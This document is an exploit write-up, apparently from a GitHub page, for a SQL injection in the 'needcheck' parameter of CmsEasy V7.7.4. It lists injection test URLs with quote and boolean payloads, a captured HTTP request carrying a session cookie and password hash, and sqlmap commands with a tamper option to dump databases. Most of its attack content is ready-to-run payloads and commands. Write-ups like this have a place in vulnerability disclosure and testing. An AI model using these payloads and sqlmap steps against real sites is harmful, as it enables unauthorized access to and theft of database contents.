

## Information

```c
Exploit Title:CmsEasy.V7.7.4_20210522-SQL injection
Exploit date:25.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.cmseasy.cn/
Affect Version:V7.7.4_20210522
Description:There is a SQL injection vulnerability in CmsEasy.V7.7.4_20210522, which can be used by attackers to obtain database information
```

## How to Exploit

**Step 1：Simple test to determine the existence of SQL injection vulnerability**

```
http://192.168.174.1/index.php?case=manage&act=list&manage=archive&needcheck=0
```



```
http://192.168.174.1/index.php?case=manage&act=list&manage=archive&needcheck=0%27
```


```
http://192.168.174.1/index.php?case=manage&act=list&manage=archive&needcheck=0%20and%201=1%20--+
```


```
http://192.168.174.1/index.php?case=manage&act=list&manage=archive&needcheck=0%20and%201=2%20--+
```


**Step 2：Using burpsuite to capture communication packets**

```C
GET /index.php?case=manage&act=list&manage=archive&needcheck=0 HTTP/1.1
Host: 192.168.174.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=r9t36f9b1qok6079c54h41q61f; Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1621906612; Hm_lpvt_eaa57ca47dacb4ad4f5a257001a3457c=1621927745; loginfalse=0; login_username=test1; login_password=972af30e54f47432662167c8a92badf8
Upgrade-Insecure-Requests: 1


```


**Step 3：Using sqlmap to get database data**

```
sqlmap -r 1.txt
```


```
sqlmap -r 1.txt --dbs --tamper=between
```


## Reference

https://www.cmseasy.cn/


